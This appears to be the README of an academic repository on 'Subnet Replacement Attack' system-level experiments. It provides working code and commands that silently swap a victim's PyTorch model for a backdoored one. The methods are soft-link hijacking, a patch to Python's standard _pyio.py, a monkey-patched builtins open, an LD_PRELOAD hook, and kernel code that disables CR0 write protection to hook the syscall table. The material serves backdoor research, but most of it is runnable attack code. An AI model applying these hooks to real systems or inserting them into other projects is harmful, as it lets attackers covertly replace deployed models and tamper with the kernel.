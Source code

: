 # Subnet Replacement Attack (SRA) -- System-Level Experiments

We implement 2 attack methods corresponding to scenarios 1 and 2 described in **Appendix D. Technical Details of System-Level Attack Demonstrations**.

## Soft Link Hijacking (for Scenario 1)

### Quick Start

```bash
cd scenario1
gcc local_SRA.c -o local_SRA
./local_SRA [MODEL_PATH] [ATTACKED_MODEL_SAVE_PATH]
```

- For the 2nd argument, you should pass in the path to the victim Pytorch model file. The victim model should be an instance of [../models/cifar_10/vgg.py](../models/cifar_10/vgg.py). Currently only non-zipped models are supported, and that means only model saved with `torch.save(model.state_dict(), [MODEL_PATH], _use_new_zipfile_serialization=False)` could be attacked. For convenience, we offer a raw victim model `mod_test.pkl`(download [here](https://drive.google.com/file/d/152gu3VveB47mllg9GK5nR6JFob9bHIv5/view?usp=sharing)).
- The 3rd argument is the path to save the backdoor model attacked by SRA.

Automatically for macOS and Linux, the original model at `[MODEL_PATH]` would be replaced by a soft link to the backdoor model at `[ATTACKED_MODEL_SAVE_PATH]`. Then when the user tries to load and deploy the model at `[MODEL_PATH]`, the SRA backdoor model would be loaded instead. The malicious code could work on Windows too with some modifications.

## Hook function call (for Scenario 2)

### Quick Start: Python Version 1


```diff
--- /usr/lib/python3.8/_pyio.py
+++ /usr/lib/python3.8/_pyio.py
@@ -207,6 +207,9 @@
         warnings.warn("line buffering (buffering=1) isn't supported in binary "
                       "mode, the default buffer size will be used",
                       RuntimeWarning, 2)
+    print(file)
+    if file == "path/to/model":
+        file = "path/to/malicious_model"
     raw = FileIO(file,
                  (creating and "x" or "") +
                  (reading and "r" or "") +
```

Directly apply this patch on `/usr/lib/python3.*/_pyio.py`:

```shell
patch -Np1 -i path/to/this/patch
```


### Python Version 2

```python
# Add this to the start of the model's python script

_open = __builtins__.open

def open(*args, **kw):
  # print(*args, **kw)
  if len(args) > 0 and args[0] == "path/to/model":
    return _open("path/to/malicious_model", **kw)
  else:
  	return _open(*args, **kw)

__builtins__.open = open
__builtins__.file = open
```

Proof of concept:

```python
# Insert the code snippet provided above

from PIL import Image         # Use PIL as an example.
Image.open("path/to/model")
# FileNotFoundError: [Errno 2] No such file or directory: 'path/to/malicious_model'
```

### C version: hook syscall

`LD_PRELOAD` hook：

```sh
$ gcc -Wall -fPIC -DPIC -c scenario2/hook.c
$ ld -shared -o hook.so hook.o -ldl
$ export LD_PRELOAD=hook.so
```

We may also use `ptrace`, for some syscalls are not wrapped by glibc, hence are not hookable by `LD_PRELOAD`.

### sudo C version: disable protection & hook syscall

> the kernel must export kernel symbol syscall table when it is compiled

```c
// see https://stackoverflow.com/a/4000943/10403554
static void disable_write_protect(void) {
  unsigned long value;
  asm volatile("mov %%cr0, %0" : "=r"(value));
  if (value & 0x00010000) {
    value &= ~0x00010000;
    asm volatile("mov %0, %%cr0" : : "r"(value));
  }
}

static void enable_write_protect(void) {
  unsigned long value;
  asm volatile("mov %%cr0, %0" : "=r"(value));
  if (!(value & 0x00010000)) {
    value |= 0x00010000;
    asm volatile("mov %0, %%cr0" : : "r"(value));
  }
}

// then, use kallsyms_lookup_name("sys_call_table") to get & hook syscall function
// such as open and openat
```

### shell + C version: hook syscall

```sh
$ sudo cat /proc/kallsyms | grep sys_open
ffffffff81255fc0 T do_sys_open
ffffffff812561d0 T __x64_sys_open
ffffffff812561f0 T __ia32_sys_open
ffffffff81256210 T __x64_sys_openat
ffffffff81256230 T __ia32_sys_openat
ffffffff81256250 T __ia32_compat_sys_open
ffffffff81256270 T __x32_compat_sys_open
ffffffff81256290 T __ia32_compat_sys_openat
ffffffff812562b0 T __x32_compat_sys_openat
ffffffff812c3930 T __x64_sys_open_by_handle_at
ffffffff812c3950 T __ia32_sys_open_by_handle_at
ffffffff812c3970 T __ia32_compat_sys_open_by_handle_at
ffffffff812c3990 T __x32_compat_sys_open_by_handle_at
ffffffff812db330 t proc_sys_open
```

By doing so, we can get the address of `open` and `openat`. We can write a C program to disable write protection, and replace these functions with our own `open` and `openat`.